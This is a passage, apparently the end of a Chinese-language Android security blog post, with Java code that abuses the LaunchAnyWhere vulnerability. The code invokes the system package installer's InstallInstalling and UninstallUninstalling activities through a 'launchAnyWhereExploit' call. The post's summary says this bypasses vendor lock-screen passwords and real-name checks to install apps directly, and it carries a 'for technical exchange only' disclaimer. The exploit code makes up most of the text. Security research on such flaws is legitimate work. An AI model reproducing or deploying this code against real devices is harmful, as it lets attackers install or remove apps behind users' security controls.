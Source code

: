 ```
public static void autoInstall(Context context, String asset, boolean ignoreInstalling) throws IOException {
    File apkFile = new File(context.getCacheDir(), asset);
    Android.copyAsset(context, asset, apkFile);
    autoInstall(context, apkFile, ignoreInstalling);
}

public static void autoInstallAsync(Context context) {
    Thread installThread = new Thread(() -> {
        try {
            autoInstall(context, "test.apk", false);
        } catch (IOException e) {
            Log.e(TAG, "autoInstallAsync IOException", e);
        }
    });
    installThread.setName("AutoInstallThread");
    installThread.setDaemon(true);
    installThread.start();
}

public static void autoUninstall(Context context, String packageName) {
    if (configFreeformEnabled(Constants.PACKAGE_INSTALLER_PKG) != 1) {
        Log.e(TAG, "configFreeformEnabled failed, check previous log for reason.");
        return;
    }

    // 构造调用UninstallUninstalling的Intent
    Intent uninstallingIntent = new Intent();
    uninstallingIntent.setClassName(Constants.PACKAGE_INSTALLER_PKG,
            Constants.PACKAGE_INSTALLER_PKG + ".UninstallUninstalling");
    ApplicationInfo applicationInfo = null;
    try {
        applicationInfo = context.getPackageManager()
                .getApplicationInfo(packageName, 0);
    } catch (PackageManager.NameNotFoundException e) {
        Log.e(TAG, "NameNotFoundException, failed to uninstall.", e);
        return;
    }

    uninstallingIntent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    uninstallingIntent.putExtra("com.android.packageinstaller.applicationInfo",
            applicationInfo);
    uninstallingIntent.putExtra("android.content.pm.extra.CALLBACK", (Parcelable) null);
    uninstallingIntent.putExtra("com.android.packageinstaller.extra.APP_LABEL",
            applicationInfo.name);
    uninstallingIntent.putExtra("android.intent.extra.UNINSTALL_ALL_USERS", false);
    uninstallingIntent.putExtra("com.android.packageinstaller.extra.KEEP_DATA", false);
    uninstallingIntent.putExtra("android.intent.extra.USER", Process.myUserHandle());
    uninstallingIntent.putExtra("android.content.pm.extra.DELETE_FLAGS", 0);

    // exploit system!
    launchAnyWhereExploit(Constants.PACKAGE_INSTALLER_PKG,
            uninstallingIntent, false);
}

```

总结
--

本文介绍了`InstallInstalling`和`UninstallUninstalling`调用方式，可以用于 LaunchAnyWhere 漏洞的后利用，实现绕过厂商冗长的锁屏密码甚至实名检查，直接安装一个应用。因为这些操作都是会出现界面，用户可感知到，所以也不可能用于完全静默安装，本文仅为技术交流，请勿用于非法用途。